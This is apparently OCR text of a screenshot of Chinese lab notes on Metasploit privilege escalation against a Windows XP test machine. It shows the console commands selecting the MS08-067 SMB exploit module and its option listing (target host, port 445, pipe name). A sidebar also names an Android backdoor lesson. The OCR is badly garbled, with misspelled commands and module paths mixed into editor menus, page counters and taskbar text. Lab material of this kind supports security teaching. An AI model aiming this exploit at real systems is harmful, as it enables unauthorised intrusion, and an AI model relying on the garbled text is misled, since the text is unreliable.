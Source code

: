 yes
The SMB service port (TCP) SMBPIPE
BROWSER
yes
The pipe name to use (BROWSER,SRVSVC) Exploit target:
Id Name 一
00 0
Automatic Targeting
88 2目2の心
页码：1 页面：1／3
行：6 列：43
字数：42 拼写检查 文档校对
242PM start



s XP Prolessional-VMware Workstation
首页
临売模板
37．Metasploit：生成Android后门 hangkeketang
三文件
开发工具
特色功能
Q查找
已同步·＆协作 分享
: X■切
宋体（正文）
A·外·田
AaBbC AaBbCcDc
AaBbCcD
AaBbCcDd HTML...
普通（网站） 默认段.
世
文档助手 文字工具—
壹找替换·选择 Metasploit：漏洞提权
00
宋体（正文）-11
AA 实验靶机：Windows xp IP地x
A
BIU·A·E·· 提权的条件，必须先有一个会话
Windows xp
提权
esfs >use exploit/windows/smb/ms08_067_netapi
asf5 exploit(windos/sh/_e67.eetapi)>show options Module options(exploit/windows/smb/ms88_067_netapi): Nane
Current Setting
Required Description C
000d0ncoo C00o
RHOSTS
yes
The target host(s),range CIDR identifier, or hosts file with syntax 'file:<path>' RPORT
445
yes
The SMB service port (TCP) SMBPIPE
BROWSER
yes
The pipe name to use (BROWSER, SRVSVC) Exploit target:
Id Name
0000
Automatic Targeting
88 页码：1 页面：1／3 节：1／1 设置值：4.6厘米
行：3■14
字龄：13／42拼检查 文档校对
2m目目 Hstart
2.42PM 